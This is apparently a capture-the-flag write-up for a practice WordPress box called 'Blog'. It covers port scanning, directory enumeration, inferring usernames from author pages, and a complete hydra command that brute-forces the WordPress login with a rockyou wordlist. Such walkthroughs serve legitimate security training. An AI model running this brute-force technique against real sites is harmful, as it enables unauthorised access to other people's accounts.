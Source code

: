 # Blog  
> Billy Joel made a Wordpress blog!  
> Make sure to add ```<your instance IP>  blog.thm``` to your /etc/hosts file  
### Iniital enumeration  

PORT SCAN
```
PORT    STATE SERVICE      REASON  
22/tcp  open  ssh          syn-ack ttl 63  
80/tcp  open  http         syn-ack ttl 63  
139/tcp open  netbios-ssn  syn-ack ttl 63  
445/tcp open  microsoft-ds syn-ack ttl 63  

```
Since this is a wordpress box, we'll use a tool like uniscan to automate directory and file discovery:  

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://blog.thm/admin/
| [+] CODE: 200 URL: http://blog.thm/embed/
| [+] CODE: 200 URL: http://blog.thm/feed/
| [+] CODE: 200 URL: http://blog.thm/login/
| [+] CODE: 200 URL: http://blog.thm/note/
| [+] CODE: 200 URL: http://blog.thm/rss/
| [+] CODE: 200 URL: http://blog.thm/welcome/
| [+] CODE: 200 URL: http://blog.thm/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://blog.thm/admin/index.php
| [+] CODE: 200 URL: http://blog.thm/favicon.ico
| [+] CODE: 200 URL: http://blog.thm/index.php
| [+] CODE: 200 URL: http://blog.thm/license.txt
| [+] CODE: 200 URL: http://blog.thm/readme.html
| [+] CODE: 200 URL: http://blog.thm/robots.txt
| [+] CODE: 200 URL: http://blog.thm/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://blog.thm/search/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/sqlqhit.asp
===================================================================================================
```
Looking at the blog, we see there's an author called Karen Wheeler.
![image](https://user-images.githubusercontent.com/65077960/124903055-793ffa80-dfdb-11eb-9fed-3f1ea59192a4.png)

Looking at the URL of her author page, we can see the username kwheel, we'll take a note of that as we may be able ot use that in futurue.
Following the syntax of her username, we can infer that Billy Joel's username is probably bjoel, let's try it.
![image](https://user-images.githubusercontent.com/65077960/124903691-1f8c0000-dfdc-11eb-9eaa-a8b369d632df.png)

So we have two usernames that we can potentially use. Let's try bruteforce kwheels' password.

```
hydra -l kwheel -P rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
We have to specify the criteria of a failed attempt since Wordpress doesn't give us a HTTP code such as 403, it always returns 200.

![image](https://user-images.githubusercontent.com/65077960/124904699-2ebf7d80-dfdd-11eb-9533-6e1a755339d9.png)

